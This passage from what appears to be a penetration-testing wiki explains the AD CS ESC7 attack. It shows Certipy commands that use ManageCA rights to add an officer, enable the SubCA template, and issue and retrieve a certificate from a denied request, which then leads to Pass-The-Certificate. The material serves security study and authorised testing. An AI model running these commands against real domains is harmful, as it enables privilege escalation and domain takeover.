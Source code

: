 If RSAT is not present, it can installed like this:

```powershell
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0
```

:::


#### ESC7 - Abusing `SubCA`

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, the `SubCA` built-in template can be used, along with a `ManageCA` right.

The `SubCA` template is vulnerable to the ESC1 attack, but only Domain Admins and Enterprise Admins can enroll in it. If a standard user tries to enroll in it, he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the `ManageCA` and `ManageCertificates` rights to validate the failed request anyway. The user can then retrieve the issued certificate by specifying the same ID.

::: tabs

=== UNIX-like

If the attacker only has the `ManageCA` permission, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate access rights over the CA object ([how to enumerate](./#attack-paths)) and modify some CA's attributes like the officers list (an officer is a user with the `ManageCertificates` right). The attacker could also enable or disable certificate templates.

```bash
# Add a new officier
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -add-officer 'user'

# List all the templates
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -enable-template 'SubCA'
```

In order to abuse the `SubCA` template with ESC7, both `ManageCA` and `ManageCertificates` are needed in order to issue a certificate from a failed request.

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -retrieve 100
```

The certificate can then be used with [Pass-The-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

